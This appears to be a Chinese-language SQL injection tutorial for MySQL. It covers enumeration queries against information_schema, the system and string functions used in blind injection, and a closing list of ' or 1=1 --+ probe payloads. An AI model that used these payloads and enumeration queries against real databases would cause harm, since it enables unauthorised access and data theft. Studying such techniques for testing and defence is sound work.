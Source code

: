 ```
+----------+--------------------------------------------------------------------------+  
| locus | GROUP_CONCAT(concat_ws(', ',id,journal) ORDER BY id DESC SEPARATOR '. ') |  
+----------+--------------------------------------------------------------------------+  
| AB086827 | 2, Submitted (20-JUN-2002). 1, Unpublished |  
| AF040764 | 24, Submitted (31-DEC-1997) . 23, Unpublished |  
+----------+--------------------------------------------------------------------------+
```

3 、sql 注入中一般使用方法

列出所有的数据库

    select group_concat(schema_name) from information_schema.schemata

列出某个库当中所有的表

    select group_concat(table_name) from information_schema.tables where table_schema='xxxxx'

---
## SQL注入的常用函数和语句

#### 1.系统函数

    version() Mysql版本  
    user() 数据库用户名  
    database() 数据库名  
    @@datadir 数据库路径  
    @@version_compile_os 操作系统版本  
#### 2,字符串连接函数

    concat() 不使用字符串连接函数时   
    concat_ws() 是 CONCAT() 的特殊形式。第一个参数是其它参数的分隔符   
    group_concat() 函数返回一个字符串结果，该结果由分组中的值连接组合而成   
    详细见[http://www.cnblogs.com/yyccww/p/6054461.html](http://www.cnblogs.com/yyccww/p/6054461.html)  
    left(a,b) 从左侧截取a的前b位  
    right(a,b) 从右侧截取a的前b位  
    substr(a,b,c),从b位置开始,截取字符串a的c长度  
    mid(a,b,c) 从位置b开始,截取a字符串的c位
    
    ascii()将某个字符串转换为asscii  
    ord()函数同ascii(),将字符转化为ascii值  
    if(a,1,0) 如果a正确则返回1,否则返回0

#### 3.一般用于尝试的语句

注释:`--+`可以替换成`#`,`#`的URL编码是`%23`

    or 1=1 --+
    
    'or 1=1 --+
    
    " or 1=1 --+
    
    ) or 1=1 --+
    
    ') or 1=1 --+
    